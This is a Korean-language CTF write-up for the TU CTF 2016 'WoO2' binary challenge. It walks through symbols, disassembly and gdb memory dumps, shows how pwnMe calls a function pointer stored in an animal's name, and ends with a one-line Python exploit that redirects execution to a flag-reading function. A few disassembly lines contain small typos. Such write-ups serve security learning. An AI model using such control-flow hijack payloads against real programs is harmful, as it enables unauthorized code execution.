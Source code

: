 ```yaml
---
title: TU CTF 2016 - WoO2
slug: tu-ctf-2016-woo2
date: 2016-05-17 21:16:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


TU CTF 2016에서 못푼 문제

```console
$ ./WoO2
Welcome! I don't think we're in Kansas anymore.
We're about to head off on an adventure!
Select some animals you want to bring along.

Menu Options:
1: Bring a lion
2: Bring a tiger
3: Bring a bear
4: Delete Animal
5: Exit

Enter your choice:
5
$
```

실행하면 이렇게 뜬다.

```text
Enter your choice:
1
Choose the type of lion you want:
1: Congo Lion
2: Barbary Lion
1
Enter name of lion:
AAA
```

동물을 고르면 종류를 고를 수 있고 이름도 지어줄 수 있다.

```c-objdump
$ readelf -s WoO2 | grep 'GLOBAL DEFAULT   13'
    45: 0000000000400fb0     2 FUNC    GLOBAL DEFAULT   13 __libc_csu_fini
    48: 0000000000400a11   131 FUNC    GLOBAL DEFAULT   13 makeLion
    59: 0000000000400a94   155 FUNC    GLOBAL DEFAULT   13 pickTigerType
    65: 0000000000400989   136 FUNC    GLOBAL DEFAULT   13 pickLionType
    67: 0000000000400eaf    51 FUNC    GLOBAL DEFAULT   13 printWelcome
    69: 0000000000400c39   168 FUNC    GLOBAL DEFAULT   13 makeBear
    72: 0000000000400b2f   131 FUNC    GLOBAL DEFAULT   13 makeTiger
    73: 0000000000400f40   101 FUNC    GLOBAL DEFAULT   13 __libc_csu_init
    76: 0000000000400bb2   135 FUNC    GLOBAL DEFAULT   13 pickBearType
    78: 0000000000400820     0 FUNC    GLOBAL DEFAULT   13 _start
    79: 0000000000400e5e    81 FUNC    GLOBAL DEFAULT   13 printMenu
    81: 0000000000400ee2    93 FUNC    GLOBAL DEFAULT   13 main
    82: 0000000000400ce1    67 FUNC    GLOBAL DEFAULT   13 pwnMe
    85: 0000000000400d90   206 FUNC    GLOBAL DEFAULT   13 makeStuff
    86: 000000000040090d   124 FUNC    GLOBAL DEFAULT   13 l33tH4x0r
    92: 0000000000400d24   108 FUNC    GLOBAL DEFAULT   13 deleteAnimal
```

`l33tH4x0r` 함수를 보면

```c-objdump
Dump of assembler code for function l33tH4x0r:
   0x000000000040090d <+0>:     push   rbp
   0x000000000040090e <+1>:     mov    rbp,rsp
   0x0000000000400911 <+4>:     sub    rsp,0x50
   0x0000000000400915 <+8>:     mov    rax,QWOR PTR fs:0x28
   0x000000000040091e <+17>:    mov    QWORD PRT [rbp-0x8],rax
   0x0000000000400922 <+21>:    xor    eax,eax
   0x0000000000400924 <+23>:    mov    esi,0x400fc8
   0x0000000000400929 <+28>:    mov    edi,0x400fca
   0x000000000040092e <+33>:    call   cx4007f0 <fopen&plt>
```

`flag.txt`(0x400fca)를 여는 함수다.
그런데 이 함수를 호출하는 함수가 없다.

Enter your choice:에서 4919를 입력하면 pwnMe 함수가 실행되는데,
pwnMe 함수를 보면

```c-objdump
Dump of assembler code for function pwnMe:
   0x0000000000400ce1 <+0>:     push   rbp
   0x0000000000400ce2 <+1>:     mov    rbp,rsp
   0x0000000000400ce5 <+4>:     sub    rsp,0x10
   0x0000000000400ce9 <+8>:     mov    eax,DWORD PTR [rip+0x2013d1]     # 0x6020c0 <bearOffset>
   0x0000000000400cef <+14>:    cdqe
   0x0000000000400cf1 <+16>:    mov    rax,QWORD PTR [rax*8+0x6020e0]
   0x0000000000400cf9 <+24>:    mov    QWORD PTR [rbp-0x10],rax
   0x0000000000400cfd <+28>:    mov    rax,QWORD PTR [rbp-0x10]
   0x0000000000400d01 <+32>:    mov    eax,DWORD PTR [rax+0x14]
   0x0000000000400d04 <+35>:    cmp    eax,0x3
   0x0000000000400d07 <+38>:    jne    0x400d1a <pwnMe+57>
   0x0000000000400d09 <+40>:    mov    rax,QWORD PTR [rbp-0x10]
   0x0000000000400d0d <+44>:    mov    rax,QWORD PTR [rax]
   0x0000000000400d10 <+47>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400d14 <+51>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400d18 <+55>:    call   rax
   0x0000000000400d1a <+57>:    mov    edi,0x0
   0x0000000000400d1f <+62>:    call   0x400810 <exit@plt>
```

pwnMe+35에서 eax는 동물의 종류를 고를 때의 숫자,
pwnMe+55에서 rax는 동물의 이름의 헥사값을 가리킨다.

예를 들어 lion, tiger, bear순으로 각각 타입은 1, 2, 3,
이름은 AAA, BBB, CCC라고 이름을 지으면 메모리는 상황은 다음 스크린샷과 같다.

```c-objdump
(gdb) x/24x 0x603010
0x603010:       0x0a414141      0x00000000      0x00000000      0x00000000
0x603020:       0x00000000      0x00000001      0x00000021      0x00000000
0x603030:       0x0a424242      0x00000000      0x00000000      0x00000000
0x603040:       0x00000000      0x00000002      0x00000021      0x00000000
0x603050:       0xdeadbeef      0x00000000      0x0a434343      0x00000000
0x603060:       0x00000000      0x00000003      0x00020fa1      0x00000000
```

bear를 만드는 함수는 다른 동물을 만드는 함수와 달라서
이름이 들어갈 자리에 0xdeadbeef가 들어가니까 bear는 만들지 말고,
다른 동물을 만들어서 l33tH4x0r 함수 주소를 입력하면 실행시킬 수 있다.

그런데 난 주소가 64비트인 걸 생각 안하고
\x0d\x09\x40\x00만 죽어라 입력하다가 못풀었다.
컴퓨터는 개행문자까지 포함해서 0x0a0040090d를 호출하려고 시도했던 것ㅠㅠ

풀이

```sh
python -c "print '2\n3\n' + '\x0d\x09\x40\x00\x00\x00\x00\x00' + '\n4919\n'" | ./WoO2
```
